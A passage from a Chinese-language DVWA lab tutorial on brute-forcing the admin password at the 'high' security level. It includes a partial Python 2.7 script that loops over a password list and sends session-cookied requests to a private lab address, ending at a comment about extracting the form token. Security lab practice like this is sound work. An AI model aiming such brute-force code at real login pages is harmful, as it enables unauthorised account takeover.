 ![Alt text](../src/BruteForce/1513066476119.png)


#### 方法二、python脚本
下面是我自己写的一个脚本（python 2.7），用户名为admin，对password参数进行爆破并打印结果，仅供各位参考。
```python
#!/usr/bin/env python
#coding=utf8
import re

import requests
header = {
    'Host': '172.16.163.192',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4',
    'Cookie': 'security=high; PHPSESSID=bn9u8bm1m67uba8eqqgf0ssq67',
    'Referer': 'http://172.16.163.192/dvwa/vulnerabilities/brute/'
}
file = open('pass1.txt', 'r')
url = 'http://172.16.163.192/dvwa/vulnerabilities/brute/'

dvwa_session = requests.Session()
for line in file:
    resp = dvwa_session.get(url, headers=header)
    # 使用正则表达式 获取提交 token
```